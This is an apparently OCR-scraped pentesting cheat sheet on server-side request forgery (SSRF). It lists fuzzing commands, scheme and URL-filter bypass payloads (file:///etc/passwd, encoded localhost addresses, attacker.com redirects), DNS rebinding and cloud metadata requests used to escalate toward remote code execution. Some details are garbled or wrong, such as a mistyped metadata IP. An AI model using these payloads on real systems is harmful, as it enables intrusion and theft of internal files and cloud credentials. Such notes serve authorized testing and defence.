 # Server Site Request Forgery (SSRF)

The flow chart of SSRF goes here:

## Methodology

- Discover functionalities that forces the server to send HTTP requests
- Hidden parameters discovery, then work manually
- Check file uploads for SSRF by SVG (change image content type to `image/svg+xml`)
- PDF generators, HTML and message boxes which turns into something else
- Fuzz every parameter for SSRF (use collaborator Everywhere or auto-repeater)
- URL like parameters, work manually
- pdf generators, the pdf file should be downloaded and be tested with exiftool to find the generator and find exploit for it

## Bypasses, Tricks

Try following methods

- Try to fuzz `subdomains` and `IPs`

```bash
ffuf -w subdomains -u https://sub.domian.tld/page.ext?**SSRFPARAM**=https://**FUZZ**.domain.tld
# put subdomains in the list and check for bypasses (cut -d '.' -f1 -> subdomains.txt)
ffuf -w IPs -u https://sub.domian.tld/page.ext?**SSRFPARAM**=https://**FUZZ**
```

- Fuzz to find something

```bash
fuff -w wc.txt -u https://domain.tld/page.ext?**SSRFPARAM**=https://**FUZZ**.domain.tld
```

- Try to open forbidden URL (403)
- Discover an open redirect, try to chain it with SSRF
- Try a domain pointing to internal IP
- Try these bypasses

```markdown
SSRF bypasses (for protocol):

1.different shemes can be used:
* file:///   --> allow an attacker to fetch the content of a file on the server
== if server suports file we can read file!
# dict://    --> used to refer to world lists available using the dict protocol
* sftp://    --> used for secure file transfer over secure shell
* ldap://    --> Lightweight Directory Access Protocol
* tftp://    --> Trivial Fiel Transfer Protocol, works over udp
# gopher://  --> designed for distributing, searching, and retrieving doc
* http(s):// --> used to fetch any contenf from the web

SSRF bypasses (for url check):
1. it checkts if attacker is not entered internal IP --> (Vulnerable)
==> must not check just IP

* : 127.1 or 0x7F00001--> 127.0.0.1 (use alternatives internal IPs)
* : local.ali.com --> 127.0.0.1 (make a subdomain that points to internal IPs) 
* : [::1] or [::] --> ip version6

2. it checks white list:
* https://company.com --> https://company.com@127.0.0.1

3. it checks if URL starts with http protocol 
* : https://attacker.com --> file:///file/passwd 
==> attacker make an ulr that redirects to another protocol (file)
* : https://attacker.com --> http://127.0.0.1

4. it securly checks domain but one of subdomain has open redirects
* : https://company.com/next?url=https://attacker.com

5. https://user@evil.com@company.com

========================================================================

## Exploitaion: 
 1. reading enternal files (if "file" scheme is allowed)
 ==> sometimes scheme file is not nessecery just /etc/passwd
 2. disclosing origin ip behind CDN
 3. reading cloud meta data 
 ==> every porvider is different(find cloud default ip[169.154.169.154]) 
 4. scanning enternal IPs and Ports

gopherus and ssrfmap are tools:
gopherus
```

```bash
dig a +short ali.fbi.com  #127.0.0.1
```

- Try other IP representative

```
0x7f000001                   #127.0.0.1
127.1                        #127.0.0.1
0.0.0.0                      #127.0.0.1
2130706433                   #127.0.0.1
0                            #127.0.0.1
localtest.me                 #127.0.0.1
my.computer                  #127.0.0.1
ip6-localhost                #127.0.0.1
[0:0:0:0:ffff:127.0.0.1]     #127.0.0.1
 
#java only
url:http://127.0.0.1
url:file:///etc/passwd
```

- Try redirect bypass method to take advantage of various schemes (gopher, dict, file …)
    - URL → check [http(s)] → OK → HTTP Req → Redirects to (gopher:// or file:///)
- Try DNS Rebinding (use [this](https://lock.cmpxchg8b.com/rebinder.html))
    - Domain → Resolution (Google) → ok → HTTP Req → 127.0.0.1

## SVG file

```
**svg-cheatsheet** --> from github (use updatedly) bcz it changes time to time
```

## Post Exploitation

- Check if any useful port is open or not (MYSQL, Redis or etc.)
- Check if any useful scheme is available (Gopher, dict or etc.)
- Check if website is hosted on any cloud service or not (Amazon, Google or etc.)
- You can use Gopherus to exploit …

### Redis - Escalating to RCE

Read write ups

## AWS - Escalating tp RCE

Steps:

1. Gathering the region
2. Gathering the required information
3. Configuring the `awscli`
4. Connecting to API
5. Get accessible instances
6. Executing the command
7. Fetching the results

Determine the region:

```
http://169.254.169.254/latest/dynamic/instance-identity/document
```

… 

…

..